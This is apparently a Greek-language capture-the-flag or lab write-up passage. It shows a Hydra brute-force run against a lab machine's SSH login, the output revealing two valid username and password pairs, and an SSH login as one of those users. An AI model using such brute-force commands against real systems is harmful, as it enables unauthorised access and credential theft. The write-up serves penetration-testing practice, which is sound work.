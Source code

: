 
Υποψιαζομαστε οτι δεν εχουν αντιστοιχηθει σωστα τα passwords , οποτε εχοντας μαζεψει ολα τα usernames και passwords σε δυο αρχεια αξιοποιουμε το εργαλειο hydra για να κανουμε bruteforce το login του ssh. 


`````col

````col-md

Εντολή Hydra
```bash
hydra -L files/users.txt -P files/passwords.txt ssh://$ipt
```

````

````col-md

| flag | explanation                             |
| ---- | --------------------------------------- |
| -L   | Ακολουθει ενα αρχειο με λιστα usernames |
| -P   | Ακολουθει ενα αρχειο με λιστα passwords                                         |

````

`````



<font color="#646a73">Output:</font>
```bash
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-03 00:10:52
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 50 login tries (l:10/p:5), ~4 tries per task
[DATA] attacking ssh://192.168.1.9:22/
[22][ssh] host: 192.168.1.9   login: travis   password: DJceVy98W28Y7wLg
[22][ssh] host: 192.168.1.9   login: dexter   password: 7ZwV4qtg42cmUXGX
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-01-03 00:11:03

```

Απο αυτο βλεπουμε οτι μονο δυο απο τα usernames και οι κωδικοι τους λειτουργουν για ssh login. 


### Connecting with ssh as travis

Οποτε μπορουμε να συνδεθουμε σαν Travis με τον κωδικο 

``````col
`````col-md
Εντολή σύνδεσης ssh: 
```bash
ssh travis@192.168.1.9
```

`````

`````col-md
Password:
```
DJceVy98W28Y7wLg
```

`````

``````